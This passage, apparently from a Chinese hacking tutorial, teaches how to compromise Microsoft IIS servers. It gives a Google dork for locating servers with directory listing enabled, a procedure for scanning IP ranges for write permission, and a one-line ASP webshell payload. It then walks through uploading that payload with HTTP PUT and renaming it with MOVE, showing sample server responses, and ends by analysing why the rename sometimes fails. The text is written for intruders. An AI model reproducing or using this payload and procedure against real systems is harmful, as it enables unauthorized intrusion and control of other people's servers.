

图7



图9



图8



图10



图11



图12

这就是区别了！勾选后所有的文件和目录都显示出来了，对于攻击者来说这可是很好的一个获取信息的地方。说到这里提一下，有些 IIS 的错误信息我们无法查看，主要是 Internet 把错误信息给屏蔽了，我们可以在桌面“Internet Explorer”图标上按鼠标右键，选择“属性”，然后选择“高级”标签项，把“显示友好 HTTP 错误信息”前面的勾去掉，如图13。



图13

除了测试之外，google hack 可以搜索出一大堆有这种设置问题的服务器，我们可以在 www.google.cn 页面的搜索框里输入：`intext:"to parent directory"` 进行搜索，结果如图14。随便点开一个链接，发现也是类似前面图13的画面，如图15。



图14

图15

啊啊，其实利用 google 变换语法进行搜索是非常有必要掌握的知识，我们会在第三章里详细提到，这里大家先了解一下吧。

### ☆2.3 IIS 写权限漏洞

什么是 IIS 写权限呢？大家可以看看图10，里面的复选框有一栏为“写入”，虽然默认配置是没有勾选，而且现在存在这种漏洞的服务器不是很多，但有时候也是很有必要用到它的。这个漏洞可以导致攻击者利用工具把恶意的脚本文件写入到服务器中，从而得到更大的权限。而扫描和利用这个漏洞的工具一般使用 IIS PUT SCANNER 和 iiswrite.exe。

首先运行 IIS PUT SCANNER，界面如图16所示。我们可以在“start ip”和“end ip”两个输入框填上要攻击的起始 IP 和结束 IP，然后单击“scan”就可以开始扫描有漏洞的服务器了。



图16

图17

如果扫到了有漏洞的服务器就会出现如图17所示的画面，三种不同颜色的感叹号就代表着不同的结果，而对于入侵者来说，红色的感叹号是成功的一大步。

接着打开 iiswrite.exe，这里先交代几点。在第一个下拉框中选择“put”，这时会弹出一个选择框，让你选择哪个文件需要上传。需要注意的是，这里上传的文件不能是 asp、php 等脚本文件，应该是 txt 格式的。

这里我以一句话作为示例，上传的文件为 conn.txt，里面的内容为：`<%eval request(chr(35))%>`。接着在第二项“域名”框里面填上有漏洞的 IP，第三项保持默认就行了，如图18。然后单击“提交数据包”，如果成功的话会返回如下代码：



```http
HTTP/1.1 201 Created
Date: Fri, 26 Dec 2008 12:00:40 GMT
Server: Microsoft-IIS/6.0
X-Powered-By: ASP.NET
Location: http://58.*.*.78/test.txt
Content-Length: 0
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, LOCK, UNLOCK
```

如果返回的不是以上类似信息，则代表写文件不成功。接着把第一个选项框的 put 改为 move，这一动作代表把刚才传上去的 txt 文档改成 asp，如果成功的话，则返回如下信息：

```http
HTTP/1.1 204 No Content
Date: Fri, 26 Dec 2008 12:04:35 GMT
Server: Microsoft-IIS/6.0
X-Powered-By: ASP.NET
Content-Type: text/xml
Content-Length: 0
```

当然了，如果不是这样的返回信息，则代表失败了。因为刚才传上去的是一句话木马，所以我们直接用客户端连上去就得到了一个 webshell。客户端的提交形式如图19。



在“表单提交地址”一栏填上刚才得到的 shell 的地址，然后点击页面下面的“提交”就可以登录 webshell 了，登录后如图20。

这里要提醒一点，我用的这个马在登录 webshell 的时候是没有密码验证的，只要单击“芝麻开门，偶是老马”就可以进去了。如果大家使用的是别的马，请多看看说明，呵呵。

拿到 webshell 后就可以进行更多的操作了，这里就点到为止。不过，IIS 写权限的利用并不是那么好用，有时候会出错的，这里我把当初写的《深入分析 IIS 写权限》一文奉献给大家，为大家分析一下这个漏洞的原因。



图20

### 《深入分析 IIS 写权限》

不知道题目中的“深入”一词用得恰不恰当，我也只是在自己的实验上总结出来几点，大家看了如有什么错误可以指出来，一起讨论！

我们有时候会发现，用 IIS PUT SCANNER 扫出来的可写网站，我们并不一定能够拿到 SHELL，这是为什么呢？这还得从网站的配置说起。一起看看不同的网站配置会导致什么样的结果吧。

一般情况下，当我们建立一个网站时，默认的情况是这样的，如图21。





图21；图22

通过图21可以看出，默认情况下“脚本资源访问”和“写入”是没有勾选的。接着我们就来实验下，用扫描器扫描后的结果如图22。可以看到，并没有显示出红颜色的标志，也就是说不可写！现在我们先把“写入”勾选，再来扫描一下，如图23。



图23

这会出现了可写的标志，我们来利用工具传个一句话马试试。先传 TXT 格式的，如图24。返回正常！我们再把它 move 成 asp 格式的，按道理这样我们就可以得到一句话的 SHELL 了，可是返回的信息如图25。这样的话，我们就无法把 txt 格式改成 asp 了，如图26，直接显示语句了。



图24

大家肯定经常遇到这种很郁闷的情况。为什么我们有权限上传文件却无法 MOVE 呢？这又得回到 IIS 的配置问题上了。大家看图21中的几个属性，是不是都猜到了和“脚本资源访问”有关呢？这次我们把它也勾选上，再来重复前面的动作，如图27。现在成功改成 asp 后缀的文件了，也就是说当我们看到如下返回信息的时候，就有可能是遇到的网站因为 IIS 设置而让我们无法得手。

